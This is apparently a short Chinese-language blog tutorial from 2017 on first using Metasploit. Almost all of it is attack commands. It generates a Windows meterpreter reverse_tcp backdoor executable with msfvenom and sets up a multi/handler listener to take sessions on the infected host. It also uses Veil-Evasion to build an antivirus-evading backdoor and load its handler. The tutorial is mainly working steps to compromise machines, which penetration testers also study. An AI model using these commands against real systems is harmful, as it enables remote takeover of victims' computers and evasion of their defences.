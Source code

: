 ```yaml
---
title: metasploit 初体验
date: 2017-2-6 18:09
tags: metasploit
---
```

# msf简单使用：(以windows/meterpreter/reverse_tcp为例)

## 1.payload设置：

新开终端
`msfvenom -l`
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=4444 -f exe -o /root/桌面/1.exe //生成exe文件`

## 2.监听：

进入metasploit
`use exploit/multi/handler`
`show options`

## 3.插入攻击荷载

show payloads
`set payload windows/meterpreter_reverse_tcp`
再次show options(出现LHOST和LPORT选项)
`set lhost 192.168.1.120`
`set lport 4444`

## 4.使用run 或者 exploit 启动攻击

等待被攻击主机中招，即可拿到session
使用jobs停止攻击
`sessions -l  //获取session列表`
`sessions -i 1 //进入meterpreter`

==============================
# PS:

## 使用veil-veasion生成后门：
打开终端
`veil-veasion`
`list`
`use 6 //以c为例`

生成的后台地址：
`/var/lib/veil-evasion/output/compiled/payload.exe`

在msf中使用：
`msfconsole -r /var/lib/veil-evasion/output/handlers/payload_handler.rc`
